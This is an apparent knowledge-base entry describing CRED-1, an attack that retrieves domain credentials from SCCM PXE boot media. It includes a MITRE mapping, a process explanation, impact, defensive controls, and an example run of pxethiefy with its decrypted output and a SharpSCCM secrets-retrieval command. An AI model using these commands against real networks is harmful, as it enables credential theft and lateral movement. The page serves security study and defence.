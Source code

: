 # Retrieve secrets from PXE boot media
## Code Name
- CRED-1

## MITRE ATT&CK TTPs
- [TA0001](https://attack.mitre.org/tactics/TA0001) - Initial Access
- [TA0006](https://attack.mitre.org/tactics/TA0006) - Credential Access
- [T1078.002](https://attack.mitre.org/techniques/T1078/002/) - Valid Accounts: Domain Accounts

## Requirements
- Unauthenticated network access
- Line of sight to DHCP server
- Line of sight to PXE-enabled distrution point

## Summary
SCCM contains a preboot execution environment (PXE) feature which allows systems to load a specific operating system image on boot.

When PXE is configured, SCCM will make various [configuration changes](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot#pxe-service-point-installation) to the distribution point (DP). Most notably, the `PxeInstalled` and `IsPxe` values under the `HKLM\Software\Microsoft\SMS\DP` registry key are set to `1`.

The boot images are then [deployed](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot#add-boot-images-to-a-pxe-enabled-dp) from the site server to the DP's file system at `C:\RemoteInstall\`.

The three required components for PXE boot to work are: a PXE client, a DHCP server, and a PXE-enabled DP. A non-domain-joined computer (the PXE client in this case) that has network access could initiate the [DHCP process](https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences), resulting in the PXE client receiving a DHCPPACK request containing the `BootFileName` location and Windows Deployment Services (WDS) network boot program (NBP). Next, the client initiates a TFTP session to [download](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot#downloading-the-boot-files) the NBP. The NBP contains several files and and programs that are used to boot the computer into a Windows Preinstallation Environment (WinPE).

To Summarize this process, how PXE works in SCCM:
1. PXE client gets an IP from DHCP server​
2. Client sends new DHCPREQUEST to DP, DP responds with DHCPACK that contains the BootFileName​
3. Client starts TFTP session targeting the boot file​
4. Client downloads the network boot program (NBP)​
5. NBP downloads the operating system loader and boot files​
6. The WinPE image is loaded into a RAMDISK in memory​
7. WinPE boots, loading a task sequence (TS) boot shell, TS manager boot strap (TsPxe.dll)​
8. TS environment variables and a client certificate are downloaded via TFTP​
9. TSPXE locates the MP and downloads policy assignments​
10. Collection and machine variables are downloaded

**Note:** This goes beyond the scope of this article but Microsoft's [documentation](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot) covers it in more depth.

This process can be abused because the files and policies can be accessed without booting the PXE media. By initiating the DHCPDISCOVER request, an attacker can locate the PXE media on the network and check if they are password-protected. If they are protected, the hash can be retrieved and cracked offline using [hashcat](https://github.com/hashcat/hashcat) and [this custom module](https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module) from Christopher Panayi. If not protected, the cleartext data can be directly used. [PXEThief](https://github.com/MWR-CyberSec/PXEThief​) and [pxethiefy](https://github.com/csandker/pxethiefy​) both enable and trivialize this attack.

Once the media file is decrypted, it may contain credential material in the `NAAConfig` (network access account(NAA)), `TaskSequence`, and `CollectionSettings` (collection variables) policies.


## Impact

Attackers may recover domain credentials from this process, the difficulty of which is a direct function of the complexity of the password set on the PXE media file. If a weak password is set, cracking the password is relatively computionally "easy," depending on the hardware.

With these credentials, attackers may transition from an unauthenticated context on the network to a domain-authenticated context. If any of the credentials recovered are privileged, it may also enable privilege escalation and lateral movement vectors.

## Defensive IDs
- [PREVENT-3: Harden or Disable Network Access Account](../../../defense-techniques/PREVENT/PREVENT-3/prevent-3_description.md)
- [PREVENT-6: Configure strong PXE boot password](../../../defense-techniques/PREVENT/PREVENT-6/prevent-6_description.md)
- [PREVENT-7: Disable command support in PXE boot configuration](../../../defense-techniques/PREVENT/PREVENT-7/prevent-7_description.md)
- [PREVENT-21: Restrict PXE boot to authorized VLANs](../../../defense-techniques/PREVENT/PREVENT-21/prevent-21_description.md)


## Examples

- Using pxethiefy from a Linux machine with network access to retrieve a PXE media file with no password set
```
testsubject4@sphere4:~$ sudo python3 pxethiefy.py explore -i eth0 -a atlas.aperture.local
 
 ________  ___    ___ _______  _________  ___  ___  ___  _______   ________ ___    ___ 
|\   __  \|\  \  /  /|\  ___ \|\___   ___\\  \|\  \|\  \|\  ___ \ |\  _____\\  \  /  /|
\ \  \|\  \ \  \/  / | \   __/\|___ \  \_\ \  \\\  \ \  \ \   __/|\ \  \__/\ \  \/  / /
 \ \   ____\ \    / / \ \  \_|/__  \ \  \ \ \   __  \ \  \ \  \_|/_\ \   __\\ \    / / 
  \ \  \___|/     \/   \ \  \_|\ \  \ \  \ \ \  \ \  \ \  \ \  \_|\ \ \  \_| \/  /  /  
   \ \__\  /  /\   \    \ \_______\  \ \__\ \ \__\ \__\ \__\ \_______\ \__\__/  / /    
    \|__| /__/ /\ __\    \|_______|   \|__|  \|__|\|__|\|__|\|_______|\|__|\___/ /     
          |__|/ \|__|                                                     \|___|/      
                                                                                       v.0.0.2
                                                Based on the original PXEThief by MWR-CyberSec
                                                     https://github.com/MWR-CyberSec/PXEThief/

[*] Querying Distribution Point: atlas.aperture.local
[*] Sending DHCP request to fetch PXE boot files at: atlas.aperture.local
--- Scapy output ---
.
Sent 1 packets.
[*] Variables File Location: \SMSTemp\2023.10.13.16.48.53.0001.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.var
[*] BCD File Location: \SMSTemp\2023.10.13.16.48.53.07.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.bcd
[*] Downloading var file '\SMSTemp\2023.10.13.16.48.53.0001.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.var' from TFTP server 'atlas.aperture.local'
[+] Blank password on PXE media file found!
[*] Attempting to decrypt it...
[+] Media variables file to decrypt: 2023.10.13.16.48.53.0001.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.var
[+] Password bytes provided: 0xb4ff3000ceff90fffbff4c00ceff89ffdcff4800
[+] Successfully decrypted media variables file with the provided password!
[+] Management Point: http://atlas.aperture.local
[+] Site Code: PS1
[+] You can use the following information with SharpSCCM in an attempt to obtain secrets from the Management Point..
  SharpSCCM.exe get secrets -i "{d10d7f98-17dd-4588-b645-34964936023b}" -m "{5F8225E8-6B94-4830-AD90-0F88FC2B3536}" -c "3082073E020103308206FA06092A864886F70D010701A08206EB048206E7308206E33082

<SNIP>

6C458FCF53D0A6D2DBA446F1C0414FAD1E03A89D8481E26D7C1BED1E71FDC3272C701020207D0" -s -c PS1 -mp atlas.aperture.local
```

## References
- Christopher Panayi, Identifying and Retrieving Credentials From SCCM/MECM Task Sequences, https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences
- Christopher Panayi, Pulling Passwords Out of Configuration Manager, https://www.youtube.com/watch?v=Ly9goAud0gs
- Christopher Panayi, PXEThief, https://github.com/MWR-CyberSec/PXEThief
- Christopher Panayi, AES-128 ConfigMgr CryptDeriveKey Hashcat Module, https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module
- Carsten Sandker, pxethiefy, https://github.com/csandker/pxethiefy​
- Microsoft, Understanding PXE Boot, https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot
